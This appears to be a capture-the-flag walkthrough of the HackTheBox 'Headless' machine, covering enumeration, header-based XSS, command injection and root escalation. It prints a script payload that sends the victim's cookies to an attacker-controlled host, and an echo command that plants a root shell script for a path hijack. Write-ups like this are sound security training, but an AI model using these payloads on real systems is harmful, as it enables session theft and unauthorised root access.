 # HackTheBox - Headless

## Enumeration

We start with our nmap scan and only have a HTTP server on port 5000 and SSH on port 22.

```
# Nmap 7.94SVN scan initiated Tue Mar 26 12:42:31 2024 as: nmap -sCV -oN nmap/output 10.10.11.8
Nmap scan report for 10.10.11.8
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Tue, 26 Mar 2024 16:42:39 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94SVN%I=7%D=3/26%Time=6602FAFE%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\
SF:x20Python/3\.11\.2\r\nDate:\x20Tue,\x2026\x20Mar\x202024\x2016:42:39\x2
SF:0GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
SF:\x202799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPDWnvB_Z
SF:fs;\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\
SF:x20lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\
SF:x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-wid
SF:th,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Construct
SF:ion</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x20b
SF:ody\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\
SF:x20'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20di
SF:splay:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20justif
SF:y-content:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:align-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20height:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(0,\x20
SF:0,\x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!DOCTYP
SF:E\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x
SF:20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20resp
SF:onse</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20vers
SF:ion\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\
SF:x20code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x
SF:20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 26 12:44:09 2024 -- 1 IP address (1 host up) scanned in 98.19 seconds

```

We navigate the webpage and see nothing particularly of interest, the webpage just indicates that it'll be released in about a month so click on the button below which takes us to `/support`

<figure><img src=".gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>



The support page gives us a form which we try XSS but the site seems to have some kind of sanitisation, as it blocks our requests.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This indicates we might be looking in the wrong place but it does reveal something interesting, the `is_admin` cookie. It looks to be a JWT token so we pass it to https://jwt.io but it isn't, although does show us that the first portion indicates "user"

<figure><img src=".gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

From here we decide to get creative, although there's no XSS in the form itself maybe we can try an gain XSS from the headers. We try various headers and find that the "User-Agent" header gives us XSS!

<figure><img src=".gitbook/assets/p0l1fadW3n.png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/dJpadp6U8w.png" alt=""><figcaption></figcaption></figure>

## User

Let's now try and get an administrative cookie. We're going to use the following payload to try and do so:

```
<script>var i=new Image(); i.src="http://$VPN_IP:8000/?cookie="+btoa(document.cookie); </script>
```

This payload will silently make a HTTP request to our VPN IP and give us the users cookie encoded in Base64, indicated by `btoa`. After crafting our payload, we start our listener and send the request. We have to wait a moment but we then get a hit on our web server!

<figure><img src=".gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We decode the payload and then look at where we can use it, finding the `/dashboard` directory.

<figure><img src=".gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We use the "Inspect Element" feature on our browser and edit our cookie so that instead of seeing an Unauthorized error, we have access to the page.

<figure><img src=".gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Refreshing the page after editing our cookie, we find we have access to an "Administrator Dashboard" that allows us to generate website health reports based on the day. We catch this request in Burp and try to perform command injection and get a POC!

<figure><img src=".gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

From this point we could either enumerate the box to see if we have tools such as Netcat available or download our own bash shell and run it, both are viable options but we'll go for the former for ease.&#x20;

<figure><img src=".gitbook/assets/WzLH2Tv47u.png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/Meb2HOxqwH.png" alt=""><figcaption></figcaption></figure>

From here we stabilise our shell and get our `user.txt`

<figure><img src=".gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Root

We check our sudo privileges which reveals we can run `/usr/bin/syscheck` as sudo, so check the strings for it which just reveals the script!

<figure><img src=".gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So the binary calls "initdb.sh" from our local directory, but there's no checks for where initdb.sh is, so if we create our own malicious shell file, we can just replace its actual purpose. We'll create a simple script that spawns us a shell as root:

```
echo -e '#!/bin/bash\nbash -p' > initdb.sh
```

We'll then make it executable with `chmod +x initdb.sh` and run the binary.

<figure><img src=".gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This gives us root, and that's the box!
